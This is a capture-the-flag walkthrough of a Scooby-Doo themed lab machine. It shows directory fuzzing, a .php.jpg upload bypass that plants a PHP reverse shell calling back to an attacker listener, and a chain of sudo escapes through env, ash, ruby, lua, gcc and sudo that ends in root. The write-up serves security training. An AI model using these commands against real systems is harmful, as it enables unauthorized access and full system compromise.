


# elevator

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| elevator | beafn28 | easy | dockerlabs |

**Summary:** The elevator machine presents a multi-staged privilege escalation challenge themed around the Scooby-Doo universe. The vulnerability chain begins with an improperly secured file upload mechanism accessible through a hidden web endpoint. The application fails to properly validate file extensions, allowing an attacker to upload a PHP reverse shell disguised with a double extension (`.php.jpg`). Once code execution is achieved as the `www-data` user, the privilege escalation path resembles an "elevator" ascending through six different user accounts (www-data → daphne → vilma → shaggy → fred → scooby → root). Each user possesses excessive sudo privileges to execute various interpreters and binaries (env, ash, ruby, lua, gcc, sudo) as the next user in the chain, creating a linear path to root access. The final user, scooby, has unrestricted sudo privileges to execute `/usr/bin/sudo` itself, which when invoked with `sudo -i`, grants direct root shell access. This design demonstrates the critical security risks of misconfigured sudo permissions and insufficient file upload validation controls.

---

## Reconnaissance

### Network Scanning

The initial deployment of the vulnerable machine revealed the target IP address as **172.17.0.2**. Environment variables were configured for convenience throughout the testing process:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ ip=172.17.0.2 && url=http://$ip
```

A comprehensive port scan was executed using Nmap with service detection and default scripts enabled to enumerate all available TCP services:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-26 22:02 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```

The scan results confirmed a single exposed service: an Apache web server version 2.4.62 running on Debian, listening on port 80. The HTTP title "El Ascensor Embrujado" (The Haunted Elevator) aligned with the Scooby-Doo mystery theme, suggesting a playful but potentially vulnerable web application.

### Web Application Enumeration

Navigating to the root web directory revealed the application's landing page:


The homepage displayed a Scooby-Doo themed interface, but provided minimal attack surface from visible elements. To discover hidden directories and files, Gobuster was deployed with a comprehensive wordlist:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ gobuster dir -u http://$ip -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/Template             (Status: 403) [Size: 275]
/Repository           (Status: 403) [Size: 275]
/Tag                  (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================
```

The `/themes` directory appeared particularly interesting due to its 301 redirect status. Further enumeration of this directory was conducted using ffuf with multiple file extensions to discover hidden resources:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ ffuf -u $url/themes/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -e .txt,.php,.html -ic -fs 275

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/themes/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Extensions       : .txt .php .html
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 275
________________________________________________

uploads                 [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 0ms]
upload.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
archivo.html            [Status: 200, Size: 3380, Words: 1274, Lines: 133, Duration: 14ms]
```

Three critical resources were identified: an `uploads` directory (likely where uploaded files are stored), an `upload.php` script (the upload handler), and an `archivo.html` page that potentially served as the upload interface.

---

## Initial Access

### Vulnerability Discovery

Accessing the `/themes/archivo.html` endpoint revealed a file upload form:



The interface provided a basic file upload mechanism. Initial testing revealed that the application attempted to restrict file uploads by checking extensions, but this validation could be bypassed using a double extension technique. By appending a valid image extension (`.jpg`) after the malicious PHP extension (`.php`), the filter could be circumvented while maintaining the ability to execute PHP code.

### Exploitation

**Step 1: Prepare the reverse shell payload.**

A standard PHP reverse shell from the Kali Linux webshell repository was copied and modified to connect back to the attacking machine:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ vim php-reverse-shell.php
```

The shell was configured with the attacker's IP address (172.21.44.133) and port (4444).

**Step 2: Rename the payload to bypass extension filtering.**

The file was renamed using a double extension to evade the upload validation:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ mv php-reverse-shell.php shell.php.jpg
```

This naming convention exploited a common vulnerability where the application only checked the final extension rather than parsing the complete filename structure.

**Step 3: Set up a netcat listener.**

Before triggering the payload, a netcat listener was established to catch the incoming reverse connection:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

**Step 4: Upload and trigger the payload.**

The `shell.php.jpg` file was uploaded through the web interface, and then accessed by navigating to its location in the `/themes/uploads/` directory:



Upon accessing the uploaded file, the reverse shell successfully connected back to the attacking machine, granting initial access as the `www-data` user:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/elevator]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.21.44.133] from (UNKNOWN) [172.17.0.2] 39818
Linux 247f0978f588 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64 GNU/Linux
 11:02:15 up 23 min,  0 user,  load average: 0.29, 3.37, 5.94
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which sudo
/usr/bin/sudo
```

The presence of the `sudo` binary confirmed that privilege escalation opportunities likely existed on this system.

---

## Privilege Escalation

### The Elevator Chain

The privilege escalation path on this machine resembled an elevator ascending through multiple floors, with each user account representing a level. The strategy involved chaining sudo privileges across six different users until reaching root access. All exploitation techniques were sourced from GTFOBins, a curated list of Unix binaries that can be exploited for privilege escalation.

**Level 1: www-data to daphne**

Initial enumeration of sudo privileges revealed the first escalation vector:

```bash
$ sudo -l
Matching Defaults entries for www-data on 247f0978f588:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on 247f0978f588:
    (daphne) NOPASSWD: /usr/bin/env
```

The `www-data` user could execute `/usr/bin/env` as `daphne` without a password. The `env` binary can be exploited to spawn a shell by invoking it with `/bin/sh` as an argument:

```bash
$ sudo -u daphne /usr/bin/env /bin/sh
id
uid=1000(daphne) gid=1000(daphne) groups=1000(daphne)
```

Shell access as `daphne` was successfully obtained.

**Level 2: daphne to vilma**

Continuing the enumeration process:

```bash
sudo -l
Matching Defaults entries for daphne on 247f0978f588:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daphne may run the following commands on 247f0978f588:
    (vilma) NOPASSWD: /usr/bin/ash
```

The `daphne` user could execute `/usr/bin/ash` (the Almquist shell) as `vilma`. This provided a direct shell escalation:

```bash
sudo -u vilma /usr/bin/ash
id
uid=1001(vilma) gid=1001(vilma) groups=1001(vilma)
```

**Level 3: vilma to shaggy**

The pattern continued with the `vilma` user:

```bash
sudo -l
Matching Defaults entries for vilma on 247f0978f588:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vilma may run the following commands on 247f0978f588:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

The Ruby interpreter could be executed as `shaggy`. Ruby's `exec` function was leveraged to spawn a shell:

```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
id
uid=1002(shaggy) gid=1002(shaggy) groups=1002(shaggy)
```

**Level 4: shaggy to fred**

Enumeration from the `shaggy` context revealed:

```bash
sudo -l
Matching Defaults entries for shaggy on 247f0978f588:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User shaggy may run the following commands on 247f0978f588:
    (fred) NOPASSWD: /usr/bin/lua
```

The Lua interpreter was available. Lua's `os.execute()` function provided command execution capabilities:

```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
id
uid=1003(fred) gid=1003(fred) groups=1003(fred)
```

**Level 5: fred to scooby**

From the `fred` account:

```bash
sudo -l
Matching Defaults entries for fred on 247f0978f588:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User fred may run the following commands on 247f0978f588:
    (scooby) NOPASSWD: /usr/bin/gcc
```

The GCC compiler binary could be executed as `scooby`. While unusual, GCC can be exploited using the `--wrapper` flag to execute arbitrary commands:

```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s x
id
uid=1004(scooby) gid=1004(scooby) groups=1004(scooby)
```

This technique instructed GCC to use `/bin/sh` as a wrapper, effectively spawning a shell as `scooby`.

**Level 6: scooby to root**

The final escalation revealed an extraordinary misconfiguration:

```bash
sudo -l
Matching Defaults entries for scooby on 247f0978f588:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User scooby may run the following commands on 247f0978f588:
    (root) NOPASSWD: /usr/bin/sudo
```

The `scooby` user had the ability to run `sudo` itself as root without a password. This recursive privilege created an immediate path to root access:

```bash
sudo -u root sudo -i
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
ls -la
total 24
drwx------ 1 root root 4096 Dec  1  2024 .
drwxr-xr-x 1 root root 4096 Mar 28 10:42 ..
lrwxrwxrwx 1 root root    9 Dec  1  2024 .bash_history -> /dev/null
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x 1 root root 4096 Nov 28  2024 .local
-rw------- 1 root root 1068 Nov 28  2024 .mysql_history
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
```

Root access was achieved. The `.bash_history` file was symbolically linked to `/dev/null`, indicating an attempt to prevent command history logging. The presence of `.mysql_history` suggested that MySQL may have been used during the machine's configuration.

---

## Attack Chain Summary

1. **Reconnaissance:** Comprehensive network and web enumeration identified a single Apache web server hosting a Scooby-Doo themed application. Directory fuzzing revealed a hidden `/themes/archivo.html` endpoint containing a file upload interface.

2. **Vulnerability Discovery:** The file upload mechanism implemented weak validation that only checked the final file extension. This flaw allowed bypassing of security controls through double extension techniques (`.php.jpg`).

3. **Exploitation:** A PHP reverse shell was disguised with a double extension, uploaded successfully, and triggered by direct navigation. The shell connected back to the attacker's listener, granting initial access as the `www-data` web server user.

4. **Internal Enumeration:** Systematic sudo privilege enumeration revealed a chain of six users, each with excessive permissions to execute specific interpreters or binaries as the subsequent user (env, ash, ruby, lua, gcc, sudo).

5. **Privilege Escalation:** By chaining GTFOBins techniques across six privilege levels (www-data → daphne → vilma → shaggy → fred → scooby → root), complete system compromise was achieved. The final escalation exploited the recursive misconfiguration where the penultimate user could execute sudo itself as root.

